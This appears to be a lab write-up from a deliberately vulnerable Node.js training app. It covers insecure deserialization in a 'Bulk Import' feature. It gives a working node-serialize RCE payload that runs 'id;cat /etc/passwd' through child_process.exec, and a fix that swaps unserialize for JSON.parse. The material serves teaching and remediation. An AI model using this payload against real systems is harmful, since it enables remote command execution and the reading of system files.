 
## Vulnerability 

The Legacy `Bulk Import` feature does not securely deserialize the data. 


## Exploitation 

Json to exploit the vulnerability 
```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of
```js
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

The attack is not visilble from front end because the commands we execute visible only with logs. 
Therefore, We need to SSH to the VM and see docker logs 
```
docker-compose logs
```






## Fix
---

Change the way we deserialize 

#### Changes to `appHandler.js`
```js
// Remove 
var products = serialize.unserialize(req.files.products.data.toString('utf8'))

// Add the following code		
var products = JSON.parse(req.files.products.data.toString('utf8'))
```


